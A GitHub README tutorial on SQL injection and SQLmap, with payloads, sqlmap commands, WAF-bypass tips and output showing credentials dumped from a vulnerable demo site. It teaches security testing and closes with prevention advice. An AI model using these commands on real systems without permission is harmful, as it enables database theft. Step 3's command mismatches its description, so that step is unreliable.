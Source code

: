 # Automating SQL Injection with SQLmap: A Comprehensive Guide

![SQL Injection Logo](https://www.vaadata.com/blog/wp-content/uploads/2024/05/exploiting-sqli-with-sqlmap.png)

## What is SQL Injection?

SQL injection (SQLi) is a critical web security vulnerability that allows attackers to manipulate an application's database queries. By injecting malicious SQL code into input fields, attackers can access unauthorized data, such as user credentials or sensitive information, modify or delete database contents, or even compromise the underlying server. This vulnerability has been the cause of numerous high-profile data breaches, leading to significant reputational and financial damage.

### How SQL Injection Works
SQL injection occurs when user input is improperly sanitized and directly included in SQL queries. For instance, consider a web application querying a product database:

sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1


If an attacker inputs ' OR '1'='1 as the category, the query becomes:

sql
SELECT * FROM products WHERE category = '' OR '1'='1' AND released = 1


This returns all products since '1'='1' is always true, bypassing intended restrictions.

Common SQL injection types include:
- *Retrieving Hidden Data*: Modifying queries to access unauthorized data.
- *Subverting Application Logic*: Bypassing authentication (e.g., ' OR '1'='1' --).
- *UNION Attacks*: Extracting data from other tables using the UNION operator.
- *Blind SQL Injection*: Inferring data through boolean or time-based techniques without direct output.

To detect SQL injection, test inputs with single quotes ('), boolean conditions (e.g., 1=1), or time-delay payloads (e.g., SLEEP(5)).

## Introduction to SQLmap

SQLmap is an open-source penetration testing tool designed to automate the detection and exploitation of SQL injection vulnerabilities in web applications. It supports a wide range of database management systems (DBMS) and offers robust features for database enumeration, data extraction, and advanced exploitation.

### Key Features
- Automated detection and exploitation of SQL injection vulnerabilities.
- Enumeration of databases, tables, columns, and data.
- Support for multiple injection techniques (boolean-based blind, time-based blind, UNION query, etc.).
- Customizable detection levels and risk settings.
- Tampering scripts to bypass web application firewalls (WAFs).
- REST-JSON API for integration and automation.

### Installation
On Kali Linux (recommended for penetration testing), install SQLmap with:

bash
sudo apt install sqlmap


Alternatively, clone the repository from GitHub and run it with Python:

```bash
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
python sqlmap.py
```



For basic usage, use sqlmap -u <URL> to test a URL, with flags like --dbs to list databases or --dump to extract data.

*Note*: This guide uses the test site http://testphp.vulnweb.com for demonstration. Always obtain permission before testing systems, as unauthorized scanning is illegal.

## Step-by-Step Guide to Using SQLmap

This guide provides a structured approach to detecting and exploiting SQL injection vulnerabilities using SQLmap, based on a practical demonstration.

### Step 1: Running SQLmap on the Vulnerable Endpoint
Target a potentially vulnerable endpoint, such as:

```bash
http://testphp.vulnweb.com/artists.php?artist=1
```

Run SQLmap to check for vulnerabilities:

```bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --batch
```



- -u: Specifies the target URL.
- --batch: Automatically selects default options for non-interactive execution.

SQLmap probes the URL's parameters (e.g., artist) to identify injection points.

### Step 2: Detecting the Vulnerability
SQLmap tests various payloads and reports injectable parameters. Example output:

bash
[INFO] sqlmap found the following injection point(s) from stored session:
Parameter: artist (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: artist=1 AND 5105=5105


This confirms a boolean-based blind SQL injection in the artist parameter. The payload 1 AND 5105=5105 evaluates to true, verifying the injection point.

### Step 3: Enumerating Databases
List available databases:

```bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users -C uname,pass --dump --batch
```




Example output:

bash
[INFO] available databases:
[*] acuart
[*] information_schema


Focus on the application-specific database, acuart.

### Step 4: Listing Tables in a Database
Enumerate tables in the acuart database:

```bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --tables --batch
```



Example output:

bash
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+


The users table is a likely target for sensitive data.

### Step 5: Listing Columns in a Table
Retrieve columns from the users table:

```bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch
```



Example output:

bash
Database: acuart
Table: users
[8 columns]
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| name    | varchar(100) |
| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100) |
+---------+--------------+


Columns like uname (username) and pass (password) are of interest.

### Step 6: Dumping Data from a Table
Extract data from specific columns:

```bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users -C uname,pass --dump --batch
```



Example output:

bash
Table: users
[1 entry]
+-------+------+
| uname | pass |
+-------+------+
| test  | test |
+-------+------+


This retrieves usernames and passwords from the users table.

### Advanced Tips
- Adjust detection intensity with --level (1-5) and --risk (1-3).
- Use --tamper scripts (e.g., --tamper=space2comment) to bypass WAFs.
- Enable --threads for faster execution on multi-core systems.
- Check SQLmap logs (~/.sqlmap/output/) for detailed exploitation details.
- Use --sql-shell for an interactive SQL prompt on vulnerable systems.

## Preventing SQL Injection
Securing applications against SQL injection is critical. Key prevention strategies include:

- *Prepared Statements and Parameterized Queries*: Use parameterized queries to separate user input from SQL code.
- *Input Validation and Sanitization*: Validate and escape all user inputs against expected formats.
- *Least Privilege Principle*: Restrict database accounts to minimal permissions.
- *Error Handling*: Suppress detailed error messages that expose database details.
- *Web Application Firewalls (WAFs)*: Deploy WAFs to filter malicious inputs.
- *Stored Procedures*: Use pre-compiled SQL statements to limit injection risks.
- *Regular Security Testing*: Integrate tools like SQLmap into development pipelines.

For detailed guidance, refer to the [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html).

## Conclusion
SQLmap is a powerful tool for identifying and exploiting SQL injection vulnerabilities, making it invaluable for ethical hackers and security professionals. However, the ultimate goal is to secure applications against such attacks. This guide demonstrates a responsible approach to learning SQLmap—use it ethically and only on authorized systems.

Star this repository and contribute improvements to support the community!

*Disclaimer*: This guide is for educational purposes only. Unauthorized testing is illegal and unethical. Always obtain explicit permission before testing any system.
